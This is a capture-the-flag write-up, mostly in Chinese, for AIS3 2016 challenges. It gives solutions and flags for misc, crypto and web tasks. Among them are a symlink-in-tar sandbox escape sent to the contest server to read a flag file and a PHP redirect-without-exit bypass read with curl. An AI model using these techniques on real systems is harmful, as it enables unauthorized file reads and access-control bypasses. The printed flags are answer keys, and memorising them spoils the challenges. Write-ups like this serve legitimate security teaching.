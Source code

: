 ## misc-1

Open the `misc1.txt`

The key is `ais3{2016_^_^_hello_world!}`

## misc-2

Hint: 7Zip

此題會給一個沒副檔名又壞掉的 [File](/misc2/UNPACK_ME)

透過 [Hex Editor](http://www.azofreeware.com/2014/04/hxd-1770-hex.html) 可以發現它的 header 是一個 7z 壓縮檔

[/misc2/img_misc2_1.png](misc2/img_misc2_1.png)

透過 [7Zip](http://www.7-zip.org/recover.html) 官方的說明，可以知道真正的 7z header 是 7z 不是 7Z

[/misc2/img_misc2_2.png](misc2/img_misc2_2.png)

修復好並解壓縮後，會發現需要密碼，

接著可以猜密碼可能是 `UDJRRDVRJyfbWBxEMLEX`

[/misc2/img_misc2_3.png](misc2/img_misc2_3.png)

成功解壓後，又獲得壞掉的壓縮檔，依照以上的修復方式，再次解壓縮後可以得到放密碼的`secret.txt`，另一個是壞掉的壓縮檔

[/misc2/img_misc2_4.png](misc2/img_misc2_4.png)

重複做了好幾次發現，這個壓縮檔可能包了好幾層...

於是，執行以下程式

`WeiYu$ python misc2_sol.py` 

Here is the misc2_sol.py code

``` python
#!/usr/bin/env python3

import os
import subprocess

index = 0

while True:
    archive = str(index) + '.7z'
    key_filename = str(index) + '.key'
    with open(archive, 'rb') as old_archive:
        content = old_archive.read()
        content = b'7z' + content[2:]
        archive = str(index) + '_z.7z'
        with open(archive, 'wb') as f:
            f.write(content)

        key = None
        with open(key_filename, 'r') as f:
            key = f.read().strip()
        subprocess.call('7z e ' + archive + ' -otemp' + ' -p' + key + ' -y',shell=True)

        index += 1
        os.rename("./temp/secret.txt", "./" + str(index) + ".key")

        file_list = os.listdir("./temp")
        assert len(file_list) == 1

        os.rename("./temp/" + file_list[0], "./" + str(index) + ".7z")
        pass
```

最後解出 `flag.txt`

The key is `ais3{7zzZzzzZzzZzZzzZiP}`


## misc-3

Hint: symbolic link (透過 tar 可保留 synblic link)

`ln -s ../flag.txt guess.txt`

`tar cvf guess.tar guess.txt`

`python misc3_sol.py`

Here is the misc3_sol.py code 

``` python
#!/usr/bin/env python3

import telnetlib

data = str.encode(list(open('guess.tar'))[0])
client = telnetlib.Telnet('quiz.ais3.org', 9150)
client.write(str.encode(str(len(data))) + '\n' + data)
print(client.read_all())
```
 
The key is `ais3{First t1me 1$sc4pe tHE S4nd80x}`

## crypto-1

Hint: XOR

可以透過 [xortool](https://github.com/hellman/xortool) 破解此題

以下為執行畫面
![crypto1/xortool_sol.png](crypto1/xortool_sol.png)

得到了 `ais3{XoR_enCrYPti0N_15_n0t_a_G00d_i!ea}`

但上傳 key 的時候，發現不正確... ((崩潰 

後來發現有個英文單字不正確，修改後，得到了通關的 key

The key is `ais3{XoR_enCrYPti0N_15_n0t_a_G00d_idea}`


## crypto-2


## web-1

開啟 [web1](https://quiz.ais3.org:8011) 看到以下內容

```
There is a secret page in these website. Even Google can not find it, can you?
```

推測是 `robots.txt`，得到了以下資訊

```
User-agent: *
Disallow: /admin
Disallow: /cgi-bin/
Disallow: /images/
Disallow: /tmp/
Disallow: /private/
Disallow: /this_secret_page_you_should_not_know_where_it_is.php
```

開啟 [`https://quiz.ais3.org:8011/this_secret_page_you_should_not_know_where_it_is.php`](https://quiz.ais3.org:8011/this_secret_page_you_should_not_know_where_it_is.php)


The key is `ais3{Y0u_beat_the_G00g1e!!}`


## web-2

開啟 [web2](https://quiz.ais3.org:8012/)

``` php
<?php
error_reporting(0);
include "flag.php";

// Strong IP firewall, no-one can pass this except the admin in localhost
if ($_SERVER['REMOTE_ADDR'] !== '127.0.0.1')
{
header("Location: you_should_not_pass");
}
?>

<!DOCTYPE html>
<html>
<head>
<meta charset="UTF-8">
<title>Admin Panel</title>
</head>
<body>
Admin's secret is: <?php echo $flag; ?>
</body>
</html>
```

可以看到這段 php 沒有 `exit` 跟 `die`，因此 body content 還是會輸出

```
WeiYu$ curl https://quiz.ais3.org:8012/

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Admin Panel</title>
</head>
<body>
Admin's secret is: ais3{admin's_pane1_is_on_fir3!!!!!}
</body>
</html>
```

The key is `ais3{admin's_pane1_is_on_fir3!!!!!}`


## web-3

開啟 [web3](https://quiz.ais3.org:8013/)


